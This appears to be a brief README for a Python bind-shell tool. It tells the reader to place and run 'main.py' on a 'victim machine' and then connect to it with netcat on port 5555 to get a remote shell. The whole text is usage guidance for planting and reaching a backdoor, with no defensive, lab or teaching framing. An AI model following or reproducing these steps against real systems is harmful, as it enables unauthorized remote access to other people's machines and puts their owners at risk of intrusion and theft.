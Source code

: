 # bind shell

store this script at victim machine, then

run
```bash
python3 main.py
```

then connect with netcat by ip machine, also change ip
```bash
nc 192.168.1.150 5555
```

